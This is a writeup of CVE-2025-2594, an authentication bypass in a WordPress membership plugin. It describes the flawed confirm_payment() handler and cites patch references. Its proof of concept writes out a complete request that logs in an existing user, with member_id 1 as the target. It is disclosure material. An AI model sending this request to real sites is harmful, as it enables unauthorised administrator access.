

# CVE-2025-2594
###### User Registration & Membership <= 4.1.2 - Authentication Bypass

### Disclaimer!
The information presented in this CVE (Common Vulnerabilities and Exposures) writeup is for educational and informational purposes only. The details provided are based on publicly available resources, research, and analysis conducted by the author. The content is not intended to promote or encourage any illegal activities, including hacking, exploitation, or unauthorized access to systems.

The author does not assume any responsibility for any misuse of the information presented. It is recommended that individuals and organizations apply this knowledge responsibly and in compliance with applicable laws and regulations. Readers are strongly advised to test vulnerabilities only in controlled environments with proper authorization.

The author and contributors of this writeup do not endorse or support malicious activities and encourage responsible disclosure and ethical hacking practices.

---

### Description
A critical security vulnerability has been discovered in the “User Registration & Membership” WordPress plugin, a popular tool for creating membership websites and registration forms. The flaw, identified as CVE-2025-2594, carries a CVSS score of 8.1, indicating its high severity.

The User Registration & Membership plugin for WordPress is vulnerable to authentication bypass in versions up to, and including, 4.1.2. This is due to incorrect authentication in the 'confirm_payment()' function. This makes it possible for unauthenticated attackers to log in an existing user on the site, even an administrator, with this conditions:
1. **The plugin has activate membership add-on**
---

### PoC (Proof Of Concept)

1. get _confirm_payment_nonce at registration page
2. Sample request data
    ```text
    POST /wp-admin/admin-ajax.php HTTP/1.1
    User-Agent: PostmanRuntime/7.43.3
    Accept: */*
    Postman-Token: b41b34c8-c1c9-4e3a-aa4f-380706626e7a
    Host: hackthebox.test
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Content-Type: multipart/form-data; boundary=--------------------------705549092016875046023302
    Content-Length: 565
    
    ----------------------------705549092016875046023302
    Content-Disposition: form-data; name="action"
    
    user_registration_membership_confirm_payment
    ----------------------------705549092016875046023302
    Content-Disposition: form-data; name="security"
    
    CONFIRM_PAYMENT_NONCE
    ----------------------------705549092016875046023302
    Content-Disposition: form-data; name="form_response"
    
    { "auto_login": true }
    ----------------------------705549092016875046023302
    Content-Disposition: form-data; name="member_id"
    
    1
    ----------------------------705549092016875046023302--
   ```
3. The response must be like this  
    ```json
    {"success":true,"data":{"message":null}}
    ```
4. Sample response
   

---

### Reference
> 1. https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/user-registration/user-registration-membership-412-authentication-bypass
> 2. https://plugins.trac.wordpress.org/browser/user-registration/tags/4.1.1/modules/membership/includes/AJAX.php#L566
> 3. https://plugins.trac.wordpress.org/changeset/3262077/user-registration/trunk/modules/membership/includes/AJAX.php
> 4. https://plugins.trac.wordpress.org/changeset/3262077/user-registration/trunk/modules/membership/includes/Admin/Services/MembersService.php

---

### Thank you

- https://saweria.co/ubaii
- https://buymeacoffee.com/ubaii
- https://trakteer.id/ubaii